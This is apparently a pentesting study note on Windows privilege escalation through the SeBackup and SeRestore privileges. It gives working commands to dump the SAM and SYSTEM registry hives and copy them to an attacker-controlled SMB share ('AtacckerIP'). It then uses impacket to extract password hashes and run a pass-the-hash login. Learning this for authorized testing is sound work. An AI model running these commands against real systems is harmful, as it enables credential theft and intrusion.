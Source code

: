 ## Dangerous Privileges
Each account has privileges that allow it to perform specific system-related tasks. These tasks can be as  simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.
Each user has a set of assigned privileges that can be checked with the following command in the command prompt when ran as administrator:
```
whoami /priv
```
A complete list of available privileges on Windows system can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)  From an attacker's view, only those privileges that allow us to escalate in the system are of interest. For a comprehensive list of exploitable privileges refer to the [Priv2Admin](https://github.com/gtworek/Priv2Admin) github project.
Here we shall go over some of the most common privileges.

### SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea being that this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges. 
With this we can trivialize escalation on the system by using a variety of techniques. One of which consists on copying the SAM and SYSTEM registry hives to extract the local Administrator's passwords hash.
To do this we can use the following commands:
```
reg save hklm\system C:\Path\Tosave\system.hive
reg save hklm\sam C:\Path\Tosave\sam.hive
```
Which will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using [[SMB]] or any other available method. For SMB, we can use [[impacket]]'s `smbserver.py` to start a simple SMB server with a network share in the current directory of our attacking machine.
```sh
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username USER -password PASS public share
```
This will create a share named `public` to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command on the windows machine to transfer both files to our AttackBox
```
copy C:\Path\Tosave\sam.hive \\AtacckerIP\public\
copy C:\Path\Tosave\system.hive \\AtacckerIP\public\
```
And then use [[impacket]] to retrieve the user's password hashes
```sh
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
And finally we can use the Administrator or other user's hash to perform a Pass-the-Hash attack with [[impacket]] and gain access to the target machine.
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 USER@IP
```
